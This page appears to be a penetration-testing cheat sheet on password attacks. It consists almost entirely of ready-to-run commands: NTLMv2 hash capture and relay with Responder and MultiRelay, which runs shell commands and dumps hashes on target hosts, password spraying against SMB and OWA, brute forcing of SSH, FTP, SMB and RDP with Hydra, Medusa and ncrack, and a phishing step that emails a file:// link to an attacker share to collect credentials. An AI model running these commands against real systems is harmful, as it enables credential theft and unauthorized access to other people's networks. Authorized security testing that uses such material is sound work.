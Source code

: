```yaml
---
title: Password Attacks and Bruteforce
category: Exploitation
order: 3
---
```


> **Getting Hashes**

Responder - NTLMv2 Passwords | <code> Responder.py -I eth0 -wrf </code>
Hashcat | <code> hashcat -m 5600 hashes\ntlmssp_hashes.txt passwordlists/* </code>
Responder - Basic/ForceWpad Auth | <code> python ./Responder.py -I eth0 -wfFbv </code>

> **Replay NTLMv2**

NMAP - SMB Security Mode | <code> nmap --script smb-security-mode.nse -p445 127.0.0.1 </code>
RunFinger | <code> RunFinger.py -i 10.1.1.0/24 </code>
Set up Resonder | <code> gedit Responder.conf -> Change SMB and HTTP to Off </code>
Start Responder | <code> python ./Responder.py -I eth0 -rv </code>
Start MultiRelay Command | <code> /opt/Responder/tools/MultiRelay.py -t [target host] -c [shell command] -u ALL </code>
Start MultiRelay Shell | <code> /opt/Responder/tools/MultiRelay.py -t [target host] -u ALL </code>
Start MultiRelay Dump Hashes | <code> /opt/Responder/tools/MultiRelay.py -t [target host] -u ALL -d </code>

> **Pasword Sparying and Hashes**

crackmapexec hashes | <code> crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes </code>
crackmapexec spray | <code> crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords </code>

> **Testing Credentials Found**

crackmapexec | <code> crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami </code>

> **Default Passwords**

* [cirt](http://www.cirt.net/passwords)
* [vulnerabilityassessment](http://www.vulnerabilityassessment.co.uk/passwords.htm)
* [default-password](https://default-password.info/)
* [routerpasswords](http://www.routerpasswords.com/)
* [phenoelit](http://www.phenoelit.org/dpl/dpl.html)

> **Sniff (Kannan, ntlm, ms kerberos)**
{% highlight bash %}
E-mail with link: file://[AttackerIP]/[AttackerShare]
Sniff the traffic between victim and client for challange and response
{% endhighlight %}

> **Mac OS X Bruteforce** 

Mac OS X:

* [crowbarKC](http://www.ibootstup.com/app/com.georgestarcher.crowbarkc)

> **Creating a password list**

Crunch | <code> crunch 6 6 0123456789ABCDEF -o list.txt </code>
Crunch | <code> cat /usr/share/crun/charset.lst <br> crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha -o mixedalpha.txt </code>
cewl | <code> cewl -m 6 http://www.linkedinprofile.com -w wordlistUniq.lst </code>
John | <code> john --wordlist=wordlistFinal.lst --rules:'[chosen rule set]' --stdout > mangledWordlist </code>

> **Password Spraying**

Spiderlabs Spray (e.g., SMB, OWA, Lync) | <code>spray.sh -owa [targetIP] [usernameList] [passwordList] [attemptsPerLockoutPeriod] [LockoutPeriodInMinutes] [Domain]</code>
Ruler (MAPI/HTTP or RPC/HTTP) | <code> rule --domain [domain] brute --users ./users.txt --passwords ./passwords.txt </code>

> **Password Guessing**

Hydra - smb | <code>hydra -l admin -P /opt/tools/passwords/wordlists/rockyou.txt 10.0.0.2 smb </code>
Hydra - snmp | <code> hydra -P password-file.txt -v 10.11.1.219 snmp </code>
Hydra - ssh | <code> hydra -l root -P password-file.txt 10.11.1.219 ssh </code>
Hydra - ftp | <code> hydra -l admin -P password-file.txt -v 192.168.1.2 ftp </code>
Medusa - HTTP | <code>medusa -h admin.megacorpone.com -u admin -P mega-mangled -M http -n 81 m DIR:/admin -T 3 </code>
ncrack - rdp | <code>ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.35</code>
MSF - ftp | <code>use auxiliary/scanner/ftp/ftp_login</code>

> **Users from Password**

Ruler | <code> ruler --email [emailaddress] abk dump --output /tmp/gal.txt </code>

> **Password Lists**

Password Lists in Kali | /usr/share/wordlists/
Tailor Password list to policy | <code> > pw-inspector [-i FILE] [-o FILE] [-m MINLEN] [-M MAXLEN] [-c MINSETS] -l -u -n -p –s  <br> > pw-inspector -i /usr/share/wordlists/nmap.lst -o /root/passes.txt -m 6 -M 1 </code>
Combine Word Lists | <code> > cat wordlist.txt <wordlist2.txt....> | sort | uniq > dictionary.txt </code>
Word List from Website | <code> > mkdir /tmp/source <br> > cd /tmp/source <br> > wget -r -l [Page Depth] [target_website] <br> > cd .. <br> grep -h -r """" source | tr '[:space:]' '\n' | sort | uniq >wordlist.lst <br> > grep -v '<' wordlist.lst > newlist.lst </code>
Password Lists | https://downloads.skullsecurity.org/passwords/
Weakpass | https://weakpass.com/wordlist/online
Crackstation | https://crackstation.net/
Hashes.org | https://hashes.org/search.php
Danielmiessler | https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials
